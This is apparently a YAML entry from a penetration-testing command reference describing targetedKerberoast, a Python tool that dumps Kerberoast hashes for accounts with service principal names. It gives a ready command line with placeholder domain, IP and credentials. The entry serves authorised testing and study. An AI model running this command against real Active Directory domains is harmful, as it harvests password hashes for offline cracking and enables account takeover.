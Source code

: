 ```yaml
---
description: |
  targetedKerberoast is a Python script that can, like many others (e.g. GetUserSPNs.py), print "kerberoast" hashes for user accounts that have a SPN set.

  Command Reference:

  	Target IP: 10.10.10.1

  	Attacker IP: 10.10.10.2

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 targetedKerberoast.py -d test.local -u john -p password123 --dc-ip 10.10.10.1
items:
  - Password
  - Username
services:
  - Kerberos
  - NTLM
OS:
  - Linux
attack_types:
  - Exploitation
references:
  - https://github.com/ShutdownRepo/targetedKerberoast
---
```

